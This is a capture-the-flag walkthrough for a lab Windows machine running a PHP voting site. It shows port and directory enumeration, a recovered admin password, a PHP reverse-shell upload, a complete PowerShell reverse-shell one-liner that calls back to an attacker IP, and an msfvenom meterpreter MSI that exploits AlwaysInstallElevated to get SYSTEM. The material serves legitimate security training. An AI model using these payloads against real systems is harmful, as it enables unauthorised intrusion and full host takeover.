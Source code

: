 Target: 10.10.10.239

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.239        

Nmap scan report for 10.10.10.239
Host is up (0.040s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   LDAPSearchReq, TerminalServer: 
|_    Host '10.10.14.11' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.239/FUZZ -ic  

images                  [Status: 301, Size: 338, Words: 22, Lines: 10]
Images                  [Status: 301, Size: 338, Words: 22, Lines: 10]
admin                   [Status: 301, Size: 337, Words: 22, Lines: 10]
plugins                 [Status: 301, Size: 339, Words: 22, Lines: 10]
includes                [Status: 301, Size: 340, Words: 22, Lines: 10]
dist                    [Status: 301, Size: 336, Words: 22, Lines: 10]
licenses                [Status: 403, Size: 421, Words: 37, Lines: 12]
IMAGES                  [Status: 301, Size: 338, Words: 22, Lines: 10]
Admin                   [Status: 301, Size: 337, Words: 22, Lines: 10]
Plugins                 [Status: 301, Size: 339, Words: 22, Lines: 10]
phpmyadmin              [Status: 403, Size: 302, Words: 22, Lines: 10]
webalizer               [Status: 403, Size: 302, Words: 22, Lines: 10]
con                     [Status: 403, Size: 302, Words: 22, Lines: 10]
Includes                [Status: 301, Size: 340, Words: 22, Lines: 10]
aux                     [Status: 403, Size: 302, Words: 22, Lines: 10]
```

checking 10.10.10.239

![index](love1.png)

adding staging.love.htb to /etc/hosts
```
$ sudo vim /etc/hosts

10.10.10.239	staging.love.htb
```

checking staging.love.htb

![staging.love.htb](love2.png)

checking beta

![beta](love3.png)

checking port 5000 that is 403 from the outside

![p:5000](love4.png)

Loot:

`admin:@LoveIsInTheAir!!!!`

### Findings:Looking for attack vectors

Login using found credentials. Upload a php reverse shell to gain access.


## Foothold:

testing credentials (Admin)

![/admin#login](love5.png)

[Payload Link](https://www.revshells.com/PHP%20cmd?ip=10.10.10.10&port=9001&shell=cmd&encoding=cmd)

uploading a php reverse shell (Voters -> New -> image)

![upload](love6.png)

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded file in /images

![/images](love7.png)

invoking powershell command
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.11',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
PS C:\xampp\htdocs\omrs\images> whoami

love\phoebe
```

```
PS C:\xampp\htdocs\omrs\images> cd C:\Users\Phoebe\Desktop

PS C:\Users\Phoebe\Desktop> type user.txt

<redacted>
```


## Priv Escalations:

enumerating with winpeas
```
<snip>
  [+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
<snip>
```

creating a malicous .msi
```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=1234 -f msi -o 1.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
```

Metasploit
```
$ msfconsole
```

opening a meterpreter session
```
use multi/handler
set LHOST tun0
set LPORT 1234
run
```

exploiting .msi
```
PS C:\Users\Phoebe\Desktop> msiexec /quiet /qn /i C:\Users\Phoebe\Desktop\rev.msi
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\Users\Administrator\Desktop

meterpreter > cat root.txt

<redacted>
```
